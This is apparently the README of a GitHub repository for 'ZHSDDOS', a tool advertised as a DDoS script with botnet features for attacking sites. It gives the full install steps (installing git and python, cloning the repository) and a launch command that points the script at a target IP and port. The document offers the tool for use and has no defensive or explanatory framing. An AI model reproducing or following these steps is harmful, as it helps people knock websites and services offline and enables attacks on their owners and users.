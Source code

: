 # ZHSDDOS
DDOS SCRIPT BY ZHOSTY AND K0NARKI
✔BOT NET [K0NARKI]

✔DDOS SITES

-- HOW TO INSTALL

pkg install git

pkg install python

git clone https://github.com/zhostyhacker/ZHSDDOS

cd ZHSDDOS

ls

python3 zhsddos.py -s [IP] -p [PORT]
